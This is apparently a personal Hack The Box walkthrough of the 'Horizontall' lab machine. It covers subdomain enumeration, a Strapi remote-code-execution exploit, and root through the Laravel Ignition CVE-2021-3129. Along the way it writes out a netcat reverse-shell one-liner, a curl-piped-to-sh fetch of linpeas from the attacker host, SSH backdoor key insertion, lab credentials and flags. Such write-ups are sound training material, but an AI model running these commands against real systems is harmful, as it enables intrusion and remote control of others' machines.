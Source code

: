 Box Info Horizontall.htb
OS: Linux \
IP: 10.10.11.105 \

Part I Skills learned::  
SSH, nginx, reverse shells \
CVE-2019-18818, CVE-2019-19609, CVE-2021-3129 

---
**Enumeration::**

nmap -p- -A -oN Horizontall.txt ${IP} ::
```
22 SSH 
80 http nginx 1.14.0 (Ubuntu)

```
gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt :: nothing
ffuf :: nothing
nikto -h http://horizontall.htb :: nothing
Very little enumeration... ***but***

##Because it's running Nginx, it's possible to have VHOSTs::##
gobuster vhost -u http://horizontall.htb -w /usr/share/wordlists/subdomains-top1million.txt(see url) -t 150 ::
 1) Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
 2) **Add new dir to /etc/hosts**
 3) gobuster u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150 ::
 4) Found: /admin, /users, /reviews, /Reviews, /Users, /Admin, /REVIEWS, 
```
 curl GET http://api-prod.horizontall.htb/<dir> show reviews w/ names. /Admin shows .js
 http://.../admin :: ***Strapi*** login page
    viewing .js scripts show verison of strapi. See ![strapi_version](Screenshots/strapi_verison_find.png)
        + "strapi-plugin-content-type-builder@3.0.0-beta.17.4"
 http://.../reviews :: .json review info
 http://.../Users :: 403
 http://.../%C0 :: 400
```
---
**OSINT::**
[CVE's](https://www.cvedetails.com/vulnerability-list/vendor_id-22287/product_id-75293/Strapi-Strapi.html)
[exploit.py](https://www.exploit-db.com/exploits/50239)

After running exploit.py, shell becomes broken. see ![broken shell](Screenshots/strapi_exploit_broken_shell.png)
 + "Remember this is a blind RCE dont expect to see output"
 + Now login with credentials:: admin:SuperStrongPassword1 see ![creds](Screenshots/strapi_exploit_broken_shell.png)
 + File upload present in admin portal.
   + try to upload reverse shell::
 `victim -$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.8 5555 >/tmp/f` see ![Shell](Screenshots/strapi_shell.png)
 `attack -$ nc -lnvp <lister port> :: $whoami strapi` 
 `attack -$ cat /home/developer/user.txt :: e0a070503b5ecb060d4ec125c811270b`

---
**Root::**
+ netstat shows ports && ips
+ sudo -l nothing, very low permissions.
+ find / -perm /6000
  + GTFO's: No luck
  + netstat -nutpl :: 
  + 8000 - curl: Laravel v8 (PHP v7.4.18)
  + 3306 - mysql
  + 22 - ssh
  + 1337 - "welcome to your api - Welcome."

##**Linpeas.sh::**##
```
+ python -m http.server 8081
+ curl <attack tun ip>:8081/linpeas.sh | sh
    + see ![horizontal_ports](Screenshots/linpeas_ports_horizontall.png)

UN:PW for mysql (from linpeas.sh): developer:#J!:F9Zt2u :: No luck
SSH keys avaliable : /opt/strapi/myapi/node_modules/..etc.etc No luck
sudo verison 1.8.21p2
curl 127.0.0.1:8000 ::
    + https://vapor.laravel.com
    + see link laravel_exploit(2)
    exploit: CVE-2021-3129_exploit || laravel-igition-rce
```

##**CVE-2021-3129 - laravel-igition-rce**##
serve file: `$ python -m http.server 8080`
attacker  ` $ cd tmp/ && wget http://<attack-ip>:8080/laravelexploit.py laravelexploit.py`
`chmod +x laravelexploit.py`
`$ php -d\'phar.readonly=0\' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system id\n`
`$ ./laravelexlpoit.py http://127.0.0.1:8000 path/to/exploit.phar`
Does NOT WORK:: 

##**SSH::**##
```
attacker: ssh-keygen -t rsa -C "random comment"
attacker: ${cat id_rsa.pub} :: "AAAA.....root@kali"
victim ~/.ssh/: echo ${cat id_rsa.pub} >> authorized_keys
attacker:ssh -L 8000:127.0.0.1:8000 strapi@10.10.11.105 :: see![rev_tunnel](Screenshots/horizontall_ssh_rev_tunnel.png)
searchsploit laravel:: /usr/share/exploitdb/exploits/webapps/php/49424.py
```
W/ ssh_rev_tunnel 127.0.0.1:8000 is now accessible. 

`attacker: 'python3 ./49424.py http://127.0.0.1:8000 /home/developer/myproject/storage/logs/laravel.log 'cat /root/root.txt'`
root:: 2d171f3a6561a8f1db0e27b8d3be6546 see ![path_diff](Screenshots/horizontall_path_script_change_phpggc.png)
---
**References::**
[Discovery_DNS_subdomains_etc](https://github.com/danielmiessler/SecLists)
[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/refs/pull/252/merge)
[Lavarel_exploit](https://github.com/nth347/CVE-2021-3129_exploit)
[lavarel_exploit2](https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py)
